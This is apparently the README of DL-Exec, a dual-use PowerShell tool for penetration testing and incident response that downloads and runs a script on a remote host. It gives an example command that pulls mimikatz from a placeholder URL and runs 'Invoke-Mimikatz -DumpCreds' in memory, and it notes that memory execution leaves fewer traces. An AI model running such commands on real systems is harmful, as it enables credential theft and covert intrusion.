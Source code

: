 		Download and Execute - PowerShell
		greg . foss [at] logrhythm . com
        @heinzarelli
		v0.1 -- July 2015

## [About]

DL-Exec is a simple script that leverages user-supplied parameters to download and execute a PowerShell script with arguments on a remote host. This script can even run without touching disk via the memoryExec parameter, or if run-time parameters are required, the script can be downloaded and executed on the host directly.

## [How To]

    Execute a PowerShell script on a remote host in-memory:
        
        PS C:\> dl-exec.ps1 -source http://some.site/mimikatz.ps1 -target 10.10.10.10 -memoryExec -arguments "Invoke-Mimikatz -DumpCreds"

    Execute a PowerShell script on a remote host with run-time parameters:

        PS C:\> dl-exec.ps1 -source http://some.site/honeyports.ps1 -target 10.10.10.10 -fileExec -arguments "-Ports 21,22"

## [Use Cases]

#####Offensive

Execute various tools from frameworks like PowerSploit, Nishang, etc. on a remote host during penetration testing engagements.
![Mimikatz](/images/remote-mem-dl-exec.png)

#####Defensive

Execute various tools from frameworks like Kansa, Honeyports, etc. on a remote host during Active Defense and/or Incident Response scenarios.
![Honeyports](/images/honeyport-fileexec.png)

#####Other

No matter the script, it's possible to chain additional commands depending on the goal...
![Chaining](/images/command-chaining.png)

## [Parameter Breakdown]

    Script Source and Target Host:

        -source     :   Define the script source
        -target     :   Define the remote host

    Execution Parameters:

        -memoryExec :   Download and execute a script in memory
        -fileExec   :   Download a script and execute it from the host (leaves more traces)
        -arguments  :   Define the command-line arguments/switches/commands to be passed
                        (depending on how the script is executed)

    Credentials:

        -username   :   Administrative Username
        -password   :   Administrative Password

        If neither parameter is supplied, you will be prompted for credentials
        (FYI -- It's a bad idea to supply credentials at the command line, but there are times when it may be required)

## [License]

Copyright (c) 2016 LogRhythm

Permission is hereby granted, free of charge, to any person obtaining a copy of this software and associated documentation files (the "Software"), to deal in the Software without restriction, including without limitation the rights to use, copy, modify, merge, publish, distribute, sublicense, and/or sell copies of the Software, and to permit persons to whom the Software is furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.